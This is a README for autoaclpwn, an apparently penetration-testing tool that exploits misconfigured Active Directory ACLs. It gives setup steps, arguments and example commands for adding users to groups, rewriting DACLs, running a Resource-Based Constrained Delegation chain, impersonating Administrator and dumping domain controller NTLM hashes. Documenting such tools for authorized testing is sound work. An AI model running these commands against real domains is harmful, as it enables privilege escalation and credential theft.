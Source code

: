 # autoaclpwn
This is a tool for exploiting misconfigured ACLs in Active Directory. You can manually add users to a group, export a graph from BloodHound and use it to add the user to several groups, or import a BloodHound graph to perform an entire Resource-Based Constrained Delegation attack chain, up to and including dumping secrets.

## Setup
```
git clone https://github.com/jhicks_r7/autoaclpwn
pip3 install -r requirements.txt
python3 autoaclpwn.py -h
```
## Updates
I added the ability to connect over LDAPs after someone had an issue with LDAP being secured. If you receive an error such as:
`The server requires binds to turn on integrity checking if SSL\\TLS are not already active on the connection`
Then add the --ldaps switch to try connecting over LDAPS

## Usage
The following arguments are required for every mode autoaclpwn.py can run in:

```
-u USER, --user USER  username to add/modify group
-p PASSWORD, --password PASSWORD
                        The user's password
-d DOMAIN, --domain DOMAIN
                        Target domain name
-dc-ip DC IP          Domain Controller IP address

```

### Manually adding a user to a group or modifying DACLs

If you would like to manually add a user to a group, modify a DACL, or both, you can use the following flags:
```
--add-member          Add the member to the group
--modify-dacl         Modify the DACL to add addmember permission
-g GROUP, --group GROUP
                        Target group name. Required if not using BloodHound file
```

Example command:

```
python3 autoaclpwn.py -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -g 'Cool Person Group' --add-member --modify-dacl
```

### Automatically adding a user to/modifying DACLs of multiple groups
If you have an exported BloodHound graph, in JSON format, you can utilize the -b flag to add the member to a series of groups.

__A note on BloodHound JSON graphs__: For best results, ensure that your graph starts with the user that you have credentials for and want to modify and ends with either the last group you would like them to be added to, or a computer that you wish to perform additional exploitation on. The easiest way to get this is to use BloodHound's path tool and export the resulting path. Additionally, the graph should have a __single__ path of edges from the user to the final target. Having multiple paths may or may not produce undesirable results.

As of this time, autoaclpwn supports the following BloodHound edges:
* MemberOf
* GenericWrite
* GenericAll
* AddMember
* AddSelf
* WriteDacl

Example command:
```
python3 autoaclpwn -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -b graph.json
```

### Performing additional Resourced-Based Constrained Delegation steps
In addition to using a BloodHound graph, autoaclpwn can perform the following steps if your target ends in a computer that you will have gained GenericWrite or some functionally equivalant permissions, you can invoke various impacket commands to automatically perform the attack:

```
--add-computer        Add a computer to the account
--computer-name COMPUTER NAME
                        The name of the computer to add. Use with --add-computer
--computer-pass COMPUTER PASS
                        The password for the computer to be added. Use with --add-computer
--rbcd                Perform Resource-Based Constrained Delegation attack against the target. Requires --add-computer
--getst               Runs impacket's getST.py. Requires --add-computer and --rbcd
--impersonate USER TO IMPERSONATE
                        User to impersonate, used with --getST
--secretsdump         Dump secrets from a Domain Controller. Uses secretsdump.py
--fullauto            DO ALL THE THINGS. Probably dont do this in real life. Should also only target a DC at the moment
```

In addition, if using getST you must provide --impersonate, and can optionally provide an spn service:
```
 -spn-service SERVICE  The service to use as the service portion of the SPN for getST. Default: cifs
```

If using secretsdump, you can provide options for what you would like to dump:

```
-just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos Keys)
-just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
-just-dc-user USER    Extract only NTDS.DIT data for the user specified                                                                             
```

Example command:
```
python3 ~/autoaclpwn/autoaclpwn.py -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -b graph.json --fullauto --impersonate Administrator -just-dc-ntlm
```

__Warning__: at the moment, if your graph ends in a group and not a computer, invoking these options will provide a warning, but allow you to attempt it anyways (it won't work). If your user account does not have the proper permissions to perform the options you selected, the script will still try and run them. It should just fail, but dont' hold me accountable if it does something weird.

## References/Sources
aclpwn:   https://github.com/fox-it/aclpwn.py
rbcd.py:  https://github.com/tothi/rbcd-attack/
impacket: https://github.com/SecureAuthCorp/impacket     
